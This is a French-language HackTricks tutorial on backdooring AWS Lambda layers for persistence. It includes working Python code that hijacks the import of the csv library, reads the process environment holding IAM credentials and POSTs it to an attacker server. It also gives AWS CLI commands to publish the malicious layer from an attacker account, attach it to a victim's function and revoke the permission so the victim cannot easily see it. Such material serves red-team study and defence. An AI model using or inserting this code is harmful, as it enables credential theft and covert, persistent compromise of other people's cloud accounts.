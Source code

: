 # AWS - Persistance des couches Lambda

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

## Couches Lambda

Une couche Lambda est une archive .zip qui **peut contenir du code supplémentaire** ou d'autres contenus. Une couche peut contenir des bibliothèques, un [runtime personnalisé](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), des données ou des fichiers de configuration.

Il est possible d'inclure jusqu'à **cinq couches par fonction**. Lorsque vous incluez une couche dans une fonction, le **contenu est extrait dans le répertoire `/opt`** de l'environnement d'exécution.

Par **défaut**, les **couches** que vous créez sont **privées** à votre compte AWS. Vous pouvez choisir de **partager** une couche avec d'autres comptes ou de **rendre** la couche **publique**. Si vos fonctions consomment une couche qu'un autre compte a publiée, vos fonctions peuvent **continuer à utiliser la version de la couche après qu'elle a été supprimée, ou après que votre permission d'accéder à la couche a été révoquée**. Cependant, vous ne pouvez pas créer une nouvelle fonction ou mettre à jour des fonctions en utilisant une version de couche supprimée.

Les fonctions déployées en tant qu'image de conteneur n'utilisent pas de couches. Au lieu de cela, vous empaquetez votre runtime préféré, vos bibliothèques et d'autres dépendances dans l'image de conteneur lorsque vous construisez l'image.

### Chemin de chargement Python

Le chemin de chargement que Python utilisera dans lambda est le suivant :
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Vérifiez comment les **deuxième** et troisième **positions** sont occupées par des répertoires où les **lambda layers** décompressent leurs fichiers : **`/opt/python/lib/python3.9/site-packages`** et **`/opt/python`**

{% hint style="danger" %}
Si un attaquant parvient à **backdoor** un **layer** lambda utilisé ou à **en ajouter un** qui **exécutera du code arbitraire lorsqu'une bibliothèque commune est chargée**, il pourra exécuter du code malveillant à chaque invocation de lambda.
{% endhint %}

Par conséquent, les exigences sont :

* **Vérifier les bibliothèques** qui sont **chargées** par le code des victimes
* Créer une **bibliothèque proxy avec des lambda layers** qui **exécutera du code personnalisé** et **chargera la bibliothèque originale**.

### Bibliothèques préchargées

{% hint style="warning" %}
Lors de l'abus de cette technique, j'ai rencontré une difficulté : Certaines bibliothèques sont **déjà chargées** dans l'environnement d'exécution python lorsque votre code est exécuté. Je m'attendais à trouver des choses comme `os` ou `sys`, mais **même la bibliothèque `json` était chargée**.\
Pour abuser de cette technique de persistance, le code doit **charger une nouvelle bibliothèque qui n'est pas chargée** lorsque le code est exécuté.
{% endhint %}

Avec un code python comme celui-ci, il est possible d'obtenir la **liste des bibliothèques qui sont préchargées** dans l'environnement d'exécution python dans lambda :
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
Et voici la **liste** (vérifiez que des bibliothèques comme `os` ou `json` sont déjà présentes)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
Et voici la liste des **bibliothèques** que **lambda inclut installées par défaut** : [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Backdooring de la couche Lambda

Dans cet exemple, supposons que le code ciblé importe **`csv`**. Nous allons **backdoor l'importation de la bibliothèque `csv`**.

Pour ce faire, nous allons **créer le répertoire csv** avec le fichier **`__init__.py`** à l'intérieur dans un chemin chargé par lambda : **`/opt/python/lib/python3.9/site-packages`**\
Ensuite, lorsque la lambda est exécutée et essaie de charger **csv**, notre **fichier `__init__.py` sera chargé et exécuté**.\
Ce fichier doit :

* Exécuter notre payload
* Charger la bibliothèque csv originale

Nous pouvons faire les deux avec :
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Puis, créez un zip avec ce code dans le chemin **`python/lib/python3.9/site-packages/__init__.py`** et ajoutez-le en tant que couche lambda.

Vous pouvez trouver ce code sur [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

Le payload intégré **enverra les IAM creds à un serveur LA PREMIÈRE FOIS qu'il est invoqué ou APRÈS une réinitialisation du conteneur lambda** (changement de code ou lambda froide), mais **d'autres techniques** telles que les suivantes pourraient également être intégrées :

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Couches externes

Notez qu'il est possible d'utiliser **des couches lambda provenant de comptes externes**. De plus, une lambda peut utiliser une couche d'un compte externe même si elle n'a pas les autorisations.\
Notez également que le **nombre maximum de couches qu'une lambda peut avoir est de 5**.

Par conséquent, afin d'améliorer la polyvalence de cette technique, un attaquant pourrait :

* Backdoor une couche existante de l'utilisateur (rien n'est externe)
* **Créer** une **couche** dans **son compte**, donner à **compte victime l'accès** pour utiliser la couche, **configurer** la **couche** dans la Lambda de la victime et **retirer la permission**.
* La **Lambda** pourra toujours **utiliser la couche** et la **victime n'aura** aucun moyen facile de **télécharger le code des couches** (à part obtenir un rev shell à l'intérieur de la lambda)
* La victime **ne verra pas les couches externes** utilisées avec **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team GCP (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

